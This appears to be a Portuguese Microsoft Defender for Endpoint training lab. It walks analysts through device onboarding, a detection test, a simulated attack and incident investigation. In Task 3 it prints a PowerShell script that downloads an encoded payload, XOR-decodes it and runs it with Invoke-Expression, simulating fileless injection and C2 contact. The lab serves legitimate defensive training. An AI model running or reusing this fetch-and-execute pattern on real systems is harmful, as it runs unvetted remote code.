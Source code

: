 ```yaml
---
lab:
  title: Exercício 4 — Mitigar ataques com o Microsoft Defender para Ponto de Extremidade
  module: Learning Path 4 - Mitigate threats using Microsoft Defender for Endpoint
---
```


# Roteiro de aprendizagem 4 — Laboratório 1 — Exercício 2 — Mitigar ataques com o Microsoft Defender para Ponto de Extremidade

## Cenário do laboratório

![Visão geral do laboratório.](../Media/SC-200-Lab_Diagrams_Mod2_L1_Ex2_10_19.png)

Você é um analista de operações de segurança que trabalha em uma empresa que está implantando o Microsoft Defender para Ponto de Extremidade. Seu gerente planeja integrar alguns dispositivos para fornecer informações sobre as alterações necessárias nos procedimentos de resposta da equipe de Operações de segurança (SecOps).

Para explorar os recursos de mitigação de ataque do Defender para Ponto de Extremidade, você verificará a integração bem-sucedida do dispositivo e investigará alertas e incidentes criados durante esse processo.

### Tempo estimado para concluir este laboratório: 30 minutos

### Tarefa 1: verificar integração de dispositivos

Nesta tarefa, você confirmará se o dispositivo foi integrado com êxito e criará um alerta de teste.

1. Se você ainda não estiver no portal do Microsoft Defender XDR em seu navegador Microsoft Edge, acesse (<https://security.microsoft.com> e faça logon como Administrador do seu locatário.

1. No menu à esquerda, na área **Ativos** , selecione **Dispositivos**. Aguarde até que WIN1 apareça na página Dispositivos antes de continuar. Caso contrário, talvez seja necessário repetir essa tarefa para ver os alertas que serão gerados posteriormente.

    >**Observação:** se você tiver concluído o processo de integração e não vir dispositivos na lista de dispositivos após uma hora, isso pode indicar um problema de integração ou de conectividade.

1. Na barra de menus esquerda do portal do Microsoft Defender XDR, expanda a seção **Sistema** e selecione **Configurações**e, na página *Configurações*, selecione **Pontos de Extremidade**.

1. Selecione **Integração** na seção Gerenciamento de dispositivo e verifique se *"Windows 10 e 11"* está selecionado como sistema operacional. A mensagem *"Primeiro dispositivo integrado"* agora mostra *Concluído*.

1. Role para baixo e, na seção *"2. Executar um teste de detecção"*, copie o script do teste de detecção selecionando o botão **Copiar**.  

1. Na barra de pesquisa do Windows da máquina virtual WIN1, digite **CMD** e escolha **Executar como Administrador** no painel direito do aplicativo Prompt de comando.

1. Quando a janela "Controle de conta de usuário" for exibida, selecione **Sim** para permitir que o aplicativo seja executado. 

1. Cole o script clicando com o botão direito do mouse na janela **Administrador: Prompt de comando** e pressione **Enter** para executá-lo.

    >**Observação:** A janela é fechada automaticamente depois de executar o script com êxito e, após alguns minutos, os alertas são gerados no portal do Microsoft Defender XDR.

### Tarefa 2: Investigar alertas e incidentes

Nesta tarefa, você investigará os alertas e incidentes gerados pelo script de teste de detecção de integração na tarefa anterior.

1. No portal do Microsoft Defender XDR, expanda **Investigação e resposta** da barra de menus à esquerda, expanda **Incidentes e alertas** e selecione **Alertas**.

    >**Observação:** Em versões atualizadas da página do portal do Microsoft Defender XDR, *Incidentes e alertas* são encontrados no cabeçalho do menu *Investigações e resposta*.

1. No painel **Alertas**, selecione o alerta chamado *[TestAlert] Linha de comando suspeita do PowerShell* para carregar os detalhes dele.

1. Examine a linha do tempo da *História do alerta* e examine as guias *Detalhes* e *Recomendações*.

    >**Observação:** Na guia *Detalhes* do alerta, você pode rolar para baixo até a seção *Detalhes do incidente* e selecionar o link *Incidente de execução em um ponto de extremidade* para abrir o incidente.

1. No portal do Microsoft Defender XDR, selecione **Incidentes e alertas** na barra de menus à esquerda e selecione **Incidentes**

1. Desmarque o filtro de *Severidade de alerta* selecionando o **X** à direita do filtro.

1. Um novo incidente chamado *[TestAlert] Linha de comando suspeita do PowerShell* aparece no painel direito. Selecione o nome do incidente para carregar seus detalhes.

1. Selecione o link **Gerenciar incidente** (com um ícone de lápis) e uma nova folha de janela será exibida.

1. Em **Marcas de incidente**, digite "Simulação" e selecione **Simulação (Criar)** para criar uma marca.

1. Selecione o botão de alternância **Atribuir a** e adicione sua conta de usuário (Eu) como proprietário do incidente.

1. Em **Classificação**, expanda o menu suspenso.

1. Em **Atividade esperada e informativa**, selecione **Teste de segurança**.

1. Selecione **Salvar** para atualizar o incidente e concluir.

1. Analise o conteúdo das guias *História de ataque, Alertas, Ativos, Investigações, Evidência e resposta* e *Resumo*. Os dispositivos e usuários se encontram na guia *Ativos*. Em um incidente real, a guia *História de ataque* exibe o *Grafo do incidente*. **Dica:** Algumas guias podem estar ocultas devido ao tamanho da exibição. Selecione a guia de reticências (...) para que elas apareçam.

### Tarefa 3 Simular um ataque

>**Aviso**: Esse ataque simulado é uma excelente fonte de aprendizado por meio da prática. Execute apenas os ataques nas instruções fornecidas para este laboratório ao usar o locatário do Azure fornecido pelo curso.  Você pode executar outros ataques simulados *após* este curso de treinamento ser concluído com esse locatário.

Nesta tarefa, você simulará um ataque à máquina virtual WIN1 e verificará se o ataque foi detectado e mitigado pelo Microsoft Defender para Ponto de Extremidade.

1. Na máquina virtual WIN1, *clique com o botão direito do mouse* o botão **Iniciar** e escolha **Windows PowerShell (Administrador)**.

1. Quando a janela "Controle de conta de usuário" for exibida, selecione **Sim** para permitir que o aplicativo seja executado.

1. Copie e cole o script de simulação a seguir na janela do PowerShell e pressione **Enter** para executá-lo:

    ```PowerShell
    [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
    ;$xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');
    $base64String = (Invoke-WebRequest -URI "https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt" -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
    $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
    $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
    ```

    >**Observação:** Se ocorrerem erros (em vermelho) durante a execução do script, abra o aplicativo Bloco de Notas e copie o script em um arquivo em branco. Certifique-se de que a *quebra automática de linha* esteja ativada no Bloco de Notas. Então, copie e execute cada linha do script separadamente no PowerShell. Além disso, um script do PowerShell (attacksim.ps1) foi fornecido nos arquivos baixados no início dos laboratórios. Para usar o script, no **Windows PowerShell (Administrador)** navegue até a pasta *\Users\Admin\Desktop*, digite *.\attacksim.ps1* e pressione **Enter** para executá-lo.

1. O script produzirá várias linhas de saída e uma mensagem informando que ele *Falhou ao resolver controladores de domínio no domínio*. Alguns segundos depois, o aplicativo *Bloco de Notas* será aberto. Um código de ataque simulado será injetado no Bloco de Notas. Mantenha a instância do Bloco de Notas gerada automaticamente aberta para experimentar o cenário completo. O código de ataque simulado tentará se comunicar com um endereço IP externo (simulando um servidor C2).

### Tarefa 4: Investigar o ataque simulado como um único incidente

1. No portal do Microsoft Defender XDR, expanda **Investigação e resposta** da barra de menus à esquerda, expanda **Incidentes e alertas** e selecione **Incidentes**.

    >**Observação:** Em versões atualizadas da página do portal do Microsoft Defender XDR, *Incidentes e alertas* são encontrados no cabeçalho do menu *Investigações e resposta*.

1. Um novo incidente chamado *Incidente de vários estágios envolvendo evasão de defesa e descoberta em um ponto de extremidade* está no painel direito. Selecione o nome do incidente para carregar seus detalhes.

    >**Observação:** Se você não vir o incidente, desmarque o filtro de *Severidade de alerta* selecionando o **X** à direita do filtro.

1. Na guia *Histórico do ataque*, recolha os painéis de **Alertas** e **Detalhes do incidente** para exibir o **Grafo de incidentes** completo.

1. Passe o mouse e selecione os **Nós do Grafo de incidentes** para revisar as *entidades*.

1. Expanda novamente o painel **Alertas** (lado esquerdo) e selecione o ícone **Reproduzir história de ataque***Executar*. Isso mostra o alerta da linha do tempo de ataque por alerta e preenche dinamicamente o *Grafo de incidentes*.

1. Analise o conteúdo das guias *História de ataque, Alertas, Ativos, Investigações, Evidência e resposta* e *Resumo*. Os dispositivos e usuários se encontram na guia *Ativos*. **Dica:** Algumas guias podem estar ocultas devido ao tamanho da exibição. Selecione a guia de reticências (...) para que elas apareçam.

1. Na guia **Evidência e resposta**, selecione **Endereços IP**, em seguida, selecione o *Endereço IP*. Na janela pop-up, revise os detalhes do endereço IP, role para baixo e selecione o botão **Abrir página de endereço IP**.

1. Revise o conteúdo da página *Endereço IP*das guias *Visão geral, incidentes e alertas e Observados em organizações*. Algumas guias podem não conter informações para o endereço IP.

## Você concluiu o laboratório
